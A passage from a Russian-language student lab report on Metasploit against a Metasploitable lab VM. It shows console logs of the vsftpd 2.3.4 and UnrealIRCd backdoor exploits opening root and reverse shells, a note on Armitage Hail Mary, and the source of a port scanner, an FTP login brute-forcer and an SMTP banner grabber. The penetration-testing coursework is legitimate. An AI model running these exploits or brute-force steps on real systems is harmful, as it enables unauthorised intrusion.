Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       
   Description
   ----                                  ---------------  ----       
   -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       
   excellent  VSFTPD v2.3.4 Backdoor Command Execution


msf auxiliary(smb_enumshares) > use exploit/unix/ftp/
vsftpd_234_backdoor 
msf exploit(vsftpd_234_backdoor) > show payloads 

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, 
   Interact with Established Connection

msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact 
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.105:51913 -> 
192.168.0.104:6200) at 2015-06-03 07:09:17 -0400

hostname
metasploitable
\end{verbatim}

\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\item Осуществляем поиск подходящего эксплойта
\item Устанавливаем параметры эксплойта (rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.0.104 -sV -p 6667
[*] exec: nmap 192.168.0.104 -sV -p 6667

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:15 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00020s latency).
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: Host: irc.Metasploitable.LAN

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds


msf exploit(vsftpd_234_backdoor) > search unreal

Matching Modules
================

   Name                                        Disclosure Date  
   Rank       Description
   ----                                        ---------------  
   ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       
   excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Win32)

msf exploit(vsftpd_234_backdoor) > use exploit/unix/irc/
unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.0.104:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
    hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve 
    your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BgYY1xkmWTTKmbM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9BgYY1xkmWTTKmbM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.0.105:4444 -> 
192.168.0.104:59388) at 2015-06-03 07:19:04 -0400

hostname
metasploitable
\end{verbatim}

\paragraph{Armitage Hail Mary}
~

Armitage Hail Mary - это модуль позволяющий сделать "умную" атаку на хост. Данный модуль сканирует целевую машину и применяет все подходящие эксплойты. Ниже представлены результаты его работы.


\includegraphics[width=\linewidth]{hailmary}
\begin{center}
Рис. 1. Результаты работы Armitage Hail Mary.
\end{center}

\paragraph{Изучить три файла с исходным кодом эксплойтов или служебных скрип-тов на ruby и описать, что в них происходит}
~

Файлы состоят из нескольких частей: заголовка, импортов, объявления используемых параметров.

Файлы находятся по адресу /usr/share/metasploit-framework/modules/...

\begin{enumerate}
\item auxiliary/scanner/portscan

Модуль предназначен для перечисления открытых TCP портов. Принимает следующие параметры: PORTS, TIMEOUT, CONCURRENCY + наследуемые.

В функции run host осуществляется попытка подключения к портам по списку. Для этого используется функция connect и pattern matching результатов.
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Tcp

  include Msf::Auxiliary::Report
  include Msf::Auxiliary::Scanner


  def initialize
    super(
      'Name'        => 'TCP Port Scanner',
      'Description' => 'Enumerate open TCP services',
      'Author'      => [ 'hdm', 'kris katterjohn' ],
      'License'     => MSF_LICENSE
    )

    register_options(
    [
      OptString.new('PORTS', [true, "Ports to scan (e.g. 
      22-25,80,110-900)", "1-10000"]),
      OptInt.new('TIMEOUT', [true, "The socket connect timeout in 
      milliseconds", 1000]),
      OptInt.new('CONCURRENCY', [true, "The number of concurrent 
      ports to check per host", 10]),
    ], self.class)

    deregister_options('RPORT')

  end


  def run_host(ip)

    timeout = datastore['TIMEOUT'].to_i

    ports = Rex::Socket.portspec_crack(datastore['PORTS'])

    if ports.empty?
      raise Msf::OptionValidateError.new(['PORTS'])
    end

    while(ports.length > 0)
      t = [ ]
      r = [ ]
      begin
      1.upto(datastore['CONCURRENCY']) do
        this_port = ports.shift
        break if not this_port
        t << framework.threads.spawn("Module(#{self.refname})-
        #{ip}:#{this_port}", false, this_port) do |port|
          begin
            s = connect(false,
              {
                'RPORT' => port,
                'RHOST' => ip,
                'ConnectTimeout' => (timeout / 1000.0)
              }
            )
            print_status("#{ip}:#{port} - TCP OPEN")
            r << [ip,port,"open"]
          rescue ::Rex::ConnectionRefused
            vprint_status("#{ip}:#{port} - TCP closed")
            r << [ip,port,"closed"]
          rescue ::Rex::ConnectionError, ::IOError, 
          ::Timeout::Error
          rescue ::Rex::Post::Meterpreter::RequestError
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("#{ip}:#{port} exception #{e.class} #{e} 
            #{e.backtrace}")
          ensure
            disconnect(s) rescue nil
          end
        end
      end
      t.each {|x| x.join }

      rescue ::Timeout::Error
      ensure
        t.each {|x| x.kill rescue nil }
      end

      r.each do |res|
        report_service(:host => res[0], :port => res[1], :state 
        => res[2])
      end
    end
  end
end
\end{verbatim}

\item /auxiliary/scanner/ftp/ftplogin

Структура этого файла аналогична предыдущему. Сначала идет заголовок и импорты. Далее регистрируются входные параметры. Данный скрипт содержит несколько вспомогательных структур, таких как testftpaccess, anonymouscreds, cred collection, которые служат для осуществления попытки подключения, содержат параметры по умолчанию для анонимного подключения или являются вспомогательными элементами для сохранения результатов. Основное действие происходит в функции run host, которая собственно и перебирает пароли.
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ftp'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Ftp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  include Msf::Auxiliary::AuthBrute

  def proto
    'ftp'
  end

  def initialize
    super(
      'Name'        => 'FTP Authentication Scanner',
      'Description' => %q{
        This module will test FTP logins on a range of machines 
        and
        report successful logins.  If you have loaded a database 
        plugin
        and connected to a database this module will record 
        successful
        logins and hosts so you can track your access.
      },
      'Author'      => 'todb',
      'References'     =>
        [
          [ 'CVE', '1999-0502'] # Weak password
        ],
      'License'     => MSF_LICENSE
    )

    register_options(
      [
        Opt::Proxies,
        Opt::RPORT(21),
        OptBool.new('RECORD_GUEST', [ false, "Record anonymous/
        guest logins to the database", false])
      ], self.class)

    register_advanced_options(
      [
        OptBool.new('SINGLE_SESSION', [ false, 'Disconnect after 
        every login attempt', false])
      ]
    )

    deregister_options('FTPUSER','FTPPASS') # Can use these, but 
    should use 'username' and 'password'
    @accepts_all_logins = {}
  end

  def run_host(ip)
    print_status("#{ip}:#{rport} - Starting FTP login sweep")

    cred_collection = 
    Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
        prepended_creds: anonymous_creds
    )
    cred_collection = prepend_db_passwords(cred_collection)

    scanner = Metasploit::Framework::LoginScanner::FTP.new(
        host: ip,
        port: rport,
        proxies: datastore['PROXIES'],
        cred_details: cred_collection,
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        max_send_size: datastore['TCP::max_send_size'],
        send_delay: datastore['TCP::send_delay'],
        connection_timeout: 30
    )
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      if result.success?
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: 
        #{result.credential}"
      else
        invalidate_login(credential_data)
        vprint_error "#{ip}:#{rport} - LOGIN FAILED: 
        #{result.credential} (#{result.status}: #{result.proof})"
      end
    end

  end


  # Always check for anonymous access by pretending to be a 
  browser.
  def anonymous_creds
    anon_creds = [ ]
    if datastore['RECORD_GUEST']
      ['IEUser@', 'User@', 'mozilla@example.com', 
      'chrome@example.com' ].each do |password|
        anon_creds << 
        Metasploit::Framework::Credential.new(public: 
        'anonymous', private: password)
      end
    end
    anon_creds
  end

  def test_ftp_access(user,scanner)
    dir = Rex::Text.rand_text_alpha(8)
    write_check = scanner.send_cmd(['MKD', dir], true)
    if write_check and write_check =~ /^2/
      scanner.send_cmd(['RMD',dir], true)
      print_status("#{rhost}:#{rport} - User '#{user}' has READ/
      WRITE access")
      return 'Read/Write'
    else
      print_status("#{rhost}:#{rport} - User '#{user}' has READ 
      access")
      return 'Read-only'
    end
  end
end
\end{verbatim}

\item /auxiliary/scanner/smtp/smtp version

Данный скрипт всего-лишь извлекает баннер smtp сервера.

\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Smtp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize
    super(
      'Name'        => 'SMTP Banner Grabber',
      'Description' => 'SMTP Banner Grabber',
      'References'  =>
        [
          ['URL', 'http://www.ietf.org/rfc/rfc2821.txt'],
        ],
      'Author'      => 'CG',
      'License'     => MSF_LICENSE
    )
    deregister_options('MAILFROM', 'MAILTO')
  end

  def run_host(ip)
    res = connect
    banner_sanitized = Rex::Text.to_hex_ascii(banner.to_s)
    print_status("#{ip}:#{rport} SMTP #{banner_sanitized}")
    report_service(:host => rhost, :port => rport, :name => 
    "smtp", :info => banner)
  end

end
\end{verbatim}

\end{enumerate}

\subsection{Выводы}
~

В ходе данной работы были опробованы основные возможности Metasploit. Данный фреймворк позволяет сканировать и тестировать систему на проникновение. В ходе работы было исследовано 4 уязвимости metasploitable, связанных с устаревшим ПО и слабыми паролями. Была исследована структура скриптов для metasploit. Фреймворк предоставляет широкие возможности по упрощению написания собственных эксплойтов и вспомогательных скриптов. Однако, следует заметить, что для проведения успешной атаки, необходимо изначально исследовать целевую машину. Необходимо узнать список открытых портов и версии сервисов, запущенных на них. Обычно, это делается при помощи утилиты nmap. 

Также следует заметить, что данный фреймворк интегрирован с базой данных postgre, что позволяет значительно экономить время за счет автоматического сохранения и обработки результатов. Кроме того, существующие графические оболочки, такие как, например Armitage позволяют без особых усилий в полной мере использовать функции metasploit. Таким образом, matasploit является мощным инструментом для анализа и использования уязвимостей программного обеспечения.
 
\end{document}